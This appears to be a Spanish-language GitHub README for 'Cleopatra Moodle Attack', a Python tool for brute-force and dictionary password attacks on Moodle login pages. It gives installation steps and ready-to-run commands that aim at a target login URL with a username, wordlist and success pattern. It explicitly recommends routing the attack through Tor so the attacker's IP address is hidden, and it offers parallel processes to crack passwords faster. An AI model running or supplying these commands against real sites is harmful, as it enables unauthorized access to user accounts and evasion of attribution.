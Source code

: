 # Cleopatra Moodle Attack

![enter image description here](https://i.imgur.com/MlDQz9I.png)
<br>

<p align="left">
<img src="https://img.shields.io/badge/Creado%20por-RamPanic-green">
<img src="https://img.shields.io/badge/Hecho en%20-Python3-red">
    <a href="https://github.com/RamPanic?tab=repositories"><img src="https://img.shields.io/badge/Ver%20m%C3%A1s-repositorios-yellow"></a>
</p>

Cleopatra Moodle Attack (CMA) es una herramienta que le permite lanzar ataques de fuerza bruta o de diccionario en los login de sitios web basados en la plataforma Moodle.

## Instalar requerimientos

```bash
pip3 install -r requirements.txt
```

## Instalar servicio Tor y lanzar ataque

No sería discreto utilizar nuestra dirección de IP para realizar el ataque, por ende hay que cambiarla, para esto utilizaremos el servicio Tor.

### Sistemas Linux

#### Debian

```bash
sudo apt install -y tor
```
#### Arch

```bash
sudo pacman -S tor
```

### Lanzar con bandera

```bash
python3 cleopatra.py --user scorpion --url https://example.edu.ar/login/index.php -t dictionary --successful-pattern "User details" -w wordlist.lst --tor-proxy
```

## Ataque en paralelo

Con CMA podremos utilizar la potencia de la CPU para obtener la contraseña más rápido.

```bash
python3 cleopatra.py --user scorpion --url https://example.edu.ar/login/index.php -t dictionary --successful-pattern "User details" -w wordlist.lst --processes 4
```

*Advertencia*: utilice esta bandera bajo su propio riesgo, su sistema podría colapsar por un mal uso.

## Ejemplo de ataque por diccionario

```bash
python3 cleopatra.py --user scorpion --url https://example.edu.ar/login/index.php -t dictionary --successful-pattern "User details" -w wordlist.lst
```

## Muestras

![enter image description here](https://i.imgur.com/qHkOEu8.png)

## Mensajes finales

Sigue en desarrollo de pequeñas cosas :P
